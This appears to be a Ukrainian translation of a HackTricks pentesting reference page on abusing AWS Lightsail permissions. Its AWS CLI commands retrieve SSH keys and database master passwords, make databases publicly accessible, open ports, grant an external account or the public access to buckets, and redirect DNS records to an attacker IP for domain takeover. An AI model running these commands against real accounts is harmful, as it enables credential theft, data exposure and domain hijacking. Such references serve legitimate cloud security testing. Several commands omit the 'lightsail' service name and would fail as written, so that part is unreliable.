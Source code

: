 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Для отримання додаткової інформації про Lightsail перегляньте:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Важливо зазначити, що Lightsail **не використовує IAM ролі, що належать користувачу**, а належать керованому обліковому запису AWS, тому ви не можете зловживати цим сервісом для підвищення привілеїв. Однак, **чутливі дані**, такі як код, API ключі та інформація про бази даних, можуть бути знайдені в цьому сервісі.

### `lightsail:DownloadDefaultKeyPair`

Ця дозволена дія дозволить вам отримати SSH ключі для доступу до інстансів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:GetInstanceAccessDetails`

Ця дозволена дія дозволить вам генерувати SSH-ключі для доступу до інстансів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:CreateBucketAccessKey`

Ця дозволена дія дозволить вам отримати ключ для доступу до бакету:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині бакету.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ця дозволяє отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:UpdateRelationalDatabase`

Ця дозволена дія дозволить вам змінити пароль для доступу до бази даних:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Якщо база даних не є публічною, ви також можете зробити її публічною з цими дозволами з
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:OpenInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету. Зверніть увагу, що виклик закриє будь-який порт, який не вказано в ньому.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Ця дозволяє надати екземплярам доступ до кошика без додаткових облікових даних.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateBucket`

З цією дозволом зловмисник може надати своєму обліковому запису AWS доступ на читання до бакетів або навіть зробити бакети загальнодоступними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateContainerService`

З цими правами атакуючий може надати доступ до приватних ECR з сервісу контейнерів.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Потенційний вплив:** Отримати чутливу інформацію з приватного ECR

### `lightsail:CreateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (взяття піддомену під контроль), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть вказати основний домен на свою власну IP-адресу.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

### `lightsail:UpdateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (захоплення піддомену), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{{#include ../../../banners/hacktricks-training.md}}
